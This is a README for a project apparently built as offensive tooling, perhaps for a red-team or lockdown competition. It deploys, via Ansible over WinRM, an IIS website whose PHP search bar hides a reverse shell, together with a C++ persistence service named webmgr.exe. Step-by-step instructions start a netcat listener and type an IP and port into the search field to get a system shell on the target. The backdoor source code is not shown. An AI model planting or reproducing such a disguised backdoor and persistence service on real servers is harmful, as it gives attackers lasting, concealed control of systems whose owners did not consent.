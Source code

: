 # IIS-Reverse-Shell

## Overview
This project demonstrates setting up a reverse shell on an IIS server. It includes:

- **Ansible Playbooks**: Automate the deployment and configuration of the IIS server.
- **PHP Scripts**: Facilitate the reverse shell functionality.
- **Website Content**: HTML and related assets for the web interface.

## Repository Structure

<pre>IIS-Reverse-Shell/
├── Ansible/
│   ├── iis_setup.yml
│   ├── inventory.yml
│   └── ansible.cfg
├── Images/
│   └── UB_Lockdown/
│       ├── gallery1.jpg
│       ├── gallery2.jpg
│       ├── gallery3.jpg
│       ├── Sponsor1.png
│       └── logo.png
├── Persistence/
│   ├── webmgr.cpp
│   └── webmgr.exe
├── PHP/
│   ├── contact.php
│   ├── search.php
│   └── php.ini
└── Website/
    ├── UB_Lockdown.html
    ├── button.js
    └── web.config
</pre>

### Directory Breakdown
- **`Ansible/`**: Contains playbooks and inventory files for automating server setup.
- **`Images/UB_Lockdown/`**: Directory with images used in the website.
- **`Persistence/`**: Contains the C++ executable service that maintains persistence on the server.
- **`PHP/`**: Contains the PHP script for the reverse shell.
- **`Website/`**: HTML and CSS files for the website's frontend.

## Setup Instructions

### Prerequisites
- **Ansible**: Installed on the control machine.
- **Windows Server**: With WinRM running and enabled.
- **Network Configuration**: Ensure the server is accessible and that required ports are properly configured.
- **Required Ansible Packages**:
  ```sh
  ansible-galaxy collection install ansible.windows community.windows
  pip install pywinrm
  ```

### Steps

## 1. Clone the Repository
```bash
cd ~
git clone https://github.com/Lcdemi/IIS-Reverse-Shell
cd IIS-Reverse-Shell/Ansible
```

## 2. Configure Ansible Inventory
Edit the inventory.yml file to include your server's details:

```yaml
all:
  hosts:
    [IP_1]
    [IP_2]
    ...
    [IP_X]
  vars:
    ansible_user: your_username
    ansible_password: your_password
    ansible_connection: winrm
    ansible_port: 5985
    ansible_winrm_transport: ntlm
    ansible_winrm_server_cert_validation: ignore
```

## 3. Run the Ansible Playbook
To set up the IIS server and deploy the website, execute the following command:

```sh
ansible-playbook -i inventory.yml iis_setup.yml
```

## 4. Spawn a Reverse Shell
To spawn a reverse shell, follow these steps:

1. **Set Up a Listener**: On your machine, start a listener using a tool like `netcat`. For example:
   ```bash
   nc -lvnp [PORT]
   ```
2. **Trigger the Reverse Shell**: Once the deployment is complete, open your browser and navigate to: http://your_server_ip/. On the deployed website, locate the search bar. Enter the following command:
    ```html
    search [YOUR_IP] [PORT]
    ```
    Replace `[YOUR_IP]` with your machine's IP address and `[PORT]` with the port you are listening on (e.g., `8080`).

3. **Gain Access**: Once the command is executed, a system shell will be spawned, and you will have access to the target machine.
